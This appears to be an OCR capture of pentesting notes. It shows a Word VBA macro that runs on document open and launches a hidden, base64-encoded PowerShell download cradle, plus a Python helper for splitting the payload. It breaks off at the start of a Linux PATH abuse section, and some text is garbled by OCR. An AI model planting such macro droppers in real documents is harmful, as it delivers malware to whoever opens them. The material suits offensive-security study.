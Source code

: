 Others:
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys

# Unsorted

## Abusing Macros

#### Microsoft Word Example
```
Sub AutoOpen()

	MyMacro

End Sub

Sub_ _Document_Open()

	MyMacro

End Sub

Sub MyMacro()

	Dim Str As String
	Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
		Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
		...
		Str = Str + "A== "

End Sub
```

Python script to create the string above:
```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):

print("Str = Str + " + '"' + str[i:i+n] + '"')
```

## Abusing PATH

A Linux PATH vulnerability typically arises when a malicious user is able to exploit the environment variable `PATH` to execute unintended commands. This is especially problematic when scripts or programs with elevated privileges (like root) inadvertently execute malicious code instead of legitimate system binaries. Here's a classic example of such a vulnerability:

### Example: Misconfigured PATH in a Privileged Script
